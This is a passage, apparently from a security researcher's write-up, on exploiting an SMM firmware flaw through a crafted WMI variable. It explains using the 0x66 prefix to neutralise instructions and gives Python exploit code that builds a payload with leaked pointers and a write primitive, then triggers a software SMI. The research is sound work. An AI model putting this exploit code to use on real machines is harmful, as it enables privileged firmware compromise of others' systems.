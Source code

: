 ```
66 89 02         mov     [rdx], ax
```

Is there another NOP-like byte I can use ?

Yes, actually. Meet my new friend `0x66`: the operand-size override prefix.

```
90 90 90 90 FF  ; invalid instruction, crash imminent
```

The original:

`B8 20 00 00 00 mov eax, 20h ; ' '`

now turns into:

`66 00 00 00 00 data16 add BYTE PTR [rax],al`

Do I have any idea what’s in RAX when this function is first called? No, because debugging doesn’t exist in SMM mode unless you sign a corporate NDA with Intel (_btw, Intel, hook a brother up_). But it doesn’t crash and zeroes out RAX, which is all that matters.

Moving on to disabling line 3:

`66 89 02 mov [rdx], ax`

```
def gen_bad_var_data(self, wmi_memaddr=None, write_primitive=None):
  wmipayload = self.WMIPayload()

  wmipayload.gSMRT = self.SMRT # needs to be hardcoded
  wmipayload.gSMST_0 = self.SMST # this pointer is leaked
  wmipayload.gSMST_1 = self.SMST # same
  wmipayload.InSmram = 1

  if wmi_memaddr is not None:
    wmipayload.WmiACPIMemAddress = wmi_memaddr - 0x79
    wmipayload.WmiACPIMemAddressCpy = wmi_memaddr - 0x79

  if write_primitive is not None:
    wmipayload.Primitive = (ctypes.c_byte * 8)(*write_primitive)

  return wmipayload

def disable_0x20(self):
  primitive = b"\x66\x00\x00\x00\x00\x00\x00"

  data = self.gen_bad_var_data(
      wmi_memaddr=self.MovEax20Address, # mov     eax, 20h ; ' '
      write_primitive=primitive,
  )

  self.set_wmi_var(data)

  self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```
